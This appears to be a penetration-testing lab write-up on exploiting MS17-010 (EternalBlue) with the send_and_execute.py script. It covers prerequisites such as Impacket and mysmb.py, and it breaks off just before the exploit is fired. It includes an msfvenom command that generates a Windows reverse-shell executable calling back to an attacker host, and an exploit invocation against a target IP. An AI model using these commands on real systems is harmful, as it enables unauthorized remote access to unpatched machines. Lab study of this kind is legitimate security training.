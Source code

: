 ##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

Oh well. After spending several hours Googling and trying out (check out references at end of post) exploits (namely 40279.py, 41987.py, 43980.rb, eternalblue_exploit7.py) I found one that works. Get the send_and_execute.py here. In the exploit script it says:

Tested on:
– Windows 2016 x64
– Windows 10 Pro Build 10240 x64
– Windows 2012 R2 x64
– Windows 8.1 x64
– Windows 2008 R2 SP1 x64
– Windows 7 SP1 x64
– Windows 2008 SP1 x64
– Windows 2003 R2 SP2 x64
– Windows XP SP2 x64
– Windows 8.1 x86
– Windows 7 SP1 x86
– Windows 2008 SP1 x86
– Windows 2003 SP2 x86
– Windows XP SP3 x86
– Windows 2000 SP4 x86

Hooray. Now before running that script we need a couple of other things. You need a working version of Impacket. Git clone the repository, then run pip install . in the directory. Incidentally, impacket also allows you to run smbserver.py a script which lets you transfer files from Linux to Windows, a pain given that netcat isn’t a Windows thing.

You also need one more pre-req for the exploit. Get mysmb.py from here, save to the same directory as the exploit. If not when running the exploit you’ll encounter

root@Kali:~/PTP/2.5_Exploitation/Lab 4# python send_and_execute.py 192.168.1.207 ms17-010.exe
Traceback (most recent call last):
  File "send_and_execute.py", line 3, in 
    from mysmb import MYSMB
ImportError: No module named mysmb
Note the ms17-010.exe is the payload which we generate with msfvenom:

root@Kali:~/PTP/2.5_Exploitation/Lab 4# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.73 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: ms17-010.exe
With the above, I specified the reverse listener at TCP 443, x86 architecture, Windows platform. Ok time to fire the exploit, after we set up the listener.
